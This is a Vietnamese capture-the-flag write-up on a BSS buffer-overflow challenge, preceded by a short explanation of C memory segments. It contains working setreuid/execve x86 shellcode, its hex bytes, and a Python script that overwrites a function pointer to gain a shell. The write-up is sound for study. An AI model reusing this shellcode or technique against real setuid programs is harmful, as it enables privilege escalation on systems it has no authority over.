



##[RM]_BSS_bof
### Bộ nhớ
Bộ nhớ của một chương trình C khi chạy sẽ trông ntn

**Text Segment**: chứa mã assembly đã được biên dịch, đây là vùng readonly để tránh chương trình bị thay đôi ngoài ý muốn
**Data Segment**: gồm 2 phần
- phần `RD_ONLY`: chứa các biến const đã được khởi tạo
- phần `WR_RD`: chứa các biến toàn cục, static đã được khởi tạo

**BSS**: chứa các biến toàn cục, static được khởi tạo bằng 0 hoặc chưa được khởi tạo
**Stack**: vùng nhớ lưu các biến cục bộ, các biến tạm, địa chỉ trả về, các tham số truyền vào hàm, tuân theo cấu trúc `FIFO`
**Heap**: vùng nhớ dùng cho việc cấp phát động (`malloc()`, `calloc()`...), chỉ có thể giải phòng bằng câu lệnh `free()`, `Heap` cấp phát bộ nhớ lâu hơn `stack` do các vùng nhớ của `stack` là liên tục, việc cấp phát bộ nhớ động phụ thuộc vào thuật toán tối ưu của hệ điều hành, cấp phát và giải phóng nhiều có thể gây phân mảnh bộ nhớ...
```c
#include <stdio.h>
int main(){
    return 0;
}
```
Đây là 1 đoạn code C không có biến nào cả
Check size của nó

    $ gcc -o size size.c
    $ size size
    text    data     bss     dec     hex filename
    1418     544       8    1970     7b2 size
Giờ thêm một chút mắm vào
```c
#include <stdio.h>
int a;
static int b;
int main(){
    return 0;
}
```
    $ gcc -o size1 size.c
    $ size size1
    text    data     bss     dec     hex filename
    1418     544      16    1978     7ba size3
Chỉ mỗi giá trị của ``bss`` bị thay đổi. Nếu thêm 1 biến global nữa thì ``bss`` lại tăng lên ``24`` tức `8 byte` trong khi kiểu `int` chỉ dùng có `4 byte`?. Khi chương trình yêu cầu cấp phát, bộ nhớ sẽ cấp phát một lúc `8 byte` (chắc tùy vào cấu trúc hệ thống) và có lẽ hệ điều hành sử dụng thuật toán **`best fit`** để cấp phát bộ nhớ cho chương trình. Hiểu nôm na là hđh sẽ tìm không gian lưu trữ vừa vặn nhất để lưu biến đó? (Có đúng không nhỉ =)) )
### Challenge
**Source code**
```c
#include <stdio.h>
#include <stdlib.h>

char username[512] = {1};
void (*_atexit)(int) =  exit;

void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0; 
}

int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
   
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
   
  _atexit(0);
  return 0;
}
```
**K hiểu sao lại có tên BSS bof nữa =)))*
Checksec:

    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial
~~hầu hết đều disable~~ :)
Chương trình nhận tham số argv[1.], copy vào username và in nó ra .Username có độ lớn là 512 byte, ngay sau đó là `_atexit` chứa địa chỉ của exit? (có đúng k nhỉ =)) ). Nhìn qua có thể thấy hàm `cp_username` chỉ copy đầu vào của mình mà không giới hạn độ lớn, vì vậy đây là nơi mà chúng ta khai thác. `NX disable`, có thể chèn `shellcode`.

Thử chạy và có thể thấy rằng thanh ghi `eip` đã bị ghi đè

Giá trị của `_atexit` thực sự đã bị ghi đè. **Exploit** nó bằng cách overflow `username` đến `_atexit`, ghi đè giá trị cho nó return đến đúng `shellcode` của mình.
Bây giờ vấn đề là tìm đc `shellcode`.
Một điều quan trọng mà mình suýt bỏ qua đó là file `.passwd` chỉ đc mở bởi `app-systeme-ch7-cracked` nên shellcode rập khuôn trên mạng không thể đáp ứng được.


Muốn đọc được file .passwd thì phải set được `UID` thành `app-systeme-ch7-cracked` `1207`(2 byte) và `GID` thành `app-systeme-ch7` `1107`(2 byte) Cứ để shellcode lo =)), việc của mình là viết được shellcode cái đã.
Thử dùng syscall setuid nhưng k đc, dùng [setreuid][1] thì lại đc =)) có vẻ như setuid chỉ set đc uid còn setreuid có thể set cả group id? (đoán thế :))
Đoạn assembly này mình dùng để set uid và đồng thời chạy file /bin/sh
Nếu mình dùng 2 thanh ghi ecx, ebx để mov giá trị của UID, GID vào thì sẽ thừa 2 byte do giá trị của chúng chỉ chiếm 2 byte mà 2 thanh ghi này lại có độ lớn 4 byte, shell code sẽ không hoạt động được nếu có null byte vì vậy để giảm thiểu hết mức có thể thì mình sẽ dùng 2 subreg là cx và bx (cũng có thể dùng bh, bl ...)
    
    push   0x46; syscall setreuid
    pop    eax
    mov    bx, 0x4b7; hex 1207
    mov    cx, 0x453; hex 1107
    int    0x80 ; call kenel
    ;execve("/bin/sh")
    xor    edx, edx
    push   0xb
    pop    eax
    push   edx
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx, esp
    push   edx
    push   ebx
    mov    ecx, esp
    int    0x80

[1]:<https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md>
Biên dịch file .asm ra rồi dùng objdump để lấy đc shell hoặc ném code assembly vào [đây][2]

[2]:<https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=push+++0x46+%0D%0Apop++++eax%0D%0Amov++++bx%2C+0x4b7+%0D%0Amov++++cx%2C+0x453%0D%0Aint++++0x8++%0D%0Axor++++edx%2C+edx%0D%0Apush+++0xb%0D%0Apop++++eax%0D%0Apush+++edx%0D%0Apush+++0x68732f2f%0D%0Apush+++0x6e69622f%0D%0Amov++++ebx%2C+esp%0D%0Apush+++edx%0D%0Apush+++ebx%0D%0Amov++++ecx%2C+esp%0D%0Aint++++0x80&arch=x86-32&as_format=inline#assembly>
Ta được shellcode như thế này

    "\x6a\x46\x58\x66\xbb\xb7\x04\x66\xb9\x53\x04\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
    
Đầy đủ nguyên liệu rồi giờ exploit thôi

    ~$nano /tmp/exp.py
```python
import struct
ret = 0x804a040 #shellcode của mình được lưu ở biến username nên ta sẽ return nó về đó
shellcode = "\x6a\x46\x58\x66\xbb\xb7\x04\x66\xb9\x53\x04\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
payload = shellcode +"A"*(512 - len(shellcode))
payload += struct.pack("I",ret)
print payload
```
